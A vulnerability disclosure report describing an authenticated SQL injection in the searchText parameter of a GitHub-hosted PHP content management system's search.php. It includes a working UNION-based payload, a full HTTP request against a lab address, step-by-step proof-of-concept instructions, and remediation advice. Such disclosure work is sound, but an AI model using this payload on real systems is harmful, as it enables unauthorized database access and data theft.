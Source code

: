 #### Authenticated SQL Injection in Content_Management_System

```
Vendor: github
Product: Content_Management_System
Product URL: https://github.com/mandlik05dheeraj/Content_Management_Tool/tree/main/Content_Management_System
```

##### **Executive Summary** 

A search-based SQL injection vulnerability in the Content_Management_System, hosted on GitHub, allows an attacker to manipulate SQL queries by injecting malicious SQL code into the search functionality. This vulnerability is present in all versions of the system available up to the current repository state as detailed in the product URL. Exploiting this vulnerability could allow unauthorized access to the database through the search feature, enabling the attacker to view, modify, or delete information, potentially leading to a complete compromise of the system's integrity and availability.

```
Vulnerability Name: SQL injection in searchText
Severity: High
Affected URL: http://localhost/search.php
Affected Parameter: searchText
HTTP Method: POST
```

##### **Issue Description**

The web application is vulnerable to SQL injection in the "searchText" input field. An attacker can exploit this vulnerability by inputting malicious SQL code in the HTTP POST request to manipulate the search functionality. In the provided example, the attacker modifies the "searchText" parameter to insert a malicious SQL code that could lead to unauthorized database access. This exploitation can allow viewing, modifying, or deleting database information, potentially compromising the system's integrity and availability. 

##### **Proof Of Concept**

1. **Set Up a Proxy:** First, configure a web proxy in your browser to intercept HTTP requests. Tools like Burp Suite or OWASP ZAP can be used for this purpose.
2. **Navigate and Intercept:** Access the vulnerable web application by navigating to `http://192.168.150.131/search.php`. Ensure you are on the page that utilizes the `searchText` input field for querying database entries.

![image-20240429173027815](/screenshot/image-20240429173027815.png)

1. **Intercept the Request:** Use the web proxy to capture the HTTP POST request made when a search query is submitted. The initial request will look like a standard search, typically with benign input in the `searchText` field.
2. **Modify the Payload:** In the intercepted request, modify the `searchText` parameter to include the SQL injection payload: `searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`. This payload is designed to execute a union SQL query that retrieves the database version, among other dummy values, to demonstrate the ability to inject SQL commands.
3. **Send the Malicious Request and Observe the Outcome:** After modifying the request with the SQL injection payload, forward the request through your proxy. Monitor the response from the server to this modified request. If the SQL injection is successful, the server's response will include the database version wrapped between tilde characters (`~`).

![image-20240430100142316](/screenshot/image-20240430100142316.png)

![image-20240429173101460](/screenshot/image-20240429173101460.png)

**Payload:**

`searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`

**Request:**

```
POST /search.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 129
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/search.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cms_username=null; cms_email=null; cms_PID=1
Connection: close

searchText=-1%27+union+all+select+1%2C2%2CCONCAT%280x7e%2C%28version%28%29%29%2C0x7e%29%2C3%2C4%2C5%2C6%2C7%2C8%2C9%23&searchBtn=
```

**searchText parameter in search.php:**
It can be found from the code that after obtaining the post request, the author did not filter it, and passing parameters to sql resulted in sql injection.

![image-20240430094445392](/screenshot/image-20240430094445392.png)

##### Impact:

SQL injection attacks can have devastating consequences, including unauthorized database access, data theft, database corruption, and even complete system compromise. Attackers can use SQL injection to bypass authentication, retrieve sensitive information, alter or delete data, and execute administrative operations on the database. 

Remediation:

To prevent SQL injection vulnerabilities, it is essential to use parameterized queries or prepared statements to ensure that SQL commands are securely executed. Employing server-side validation to check user inputs against expected formats can further mitigate risks. 

##### References:

https://owasp.org/www-community/attacks/SQL_Injection

